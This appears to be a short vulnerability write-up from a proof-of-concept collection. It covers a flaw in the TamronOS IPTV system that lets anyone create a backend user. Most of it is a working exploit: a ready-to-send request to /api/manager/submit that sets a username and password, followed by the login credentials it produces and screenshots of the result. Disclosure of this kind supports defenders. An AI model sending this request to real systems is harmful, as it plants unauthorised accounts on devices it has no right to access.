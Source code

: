 # TamronOS IPTV system submit vulnerability created by any user

## Vulnerability Description

TamronOS IPTV system /api/manager/submit There is a vulnerability to create any user. The attacker can create any user into the background through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">TamronOS IPTV system</span>

## Network surveying and mapping



## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210615145308242-20220313155156716.png)



The vulnerability POC is

```plain
/api/manager/submit?group=1&username=test&password=123456
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210615145547635.png)

```plain
user: test
pass: 123456
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/image-20210615145605871.png)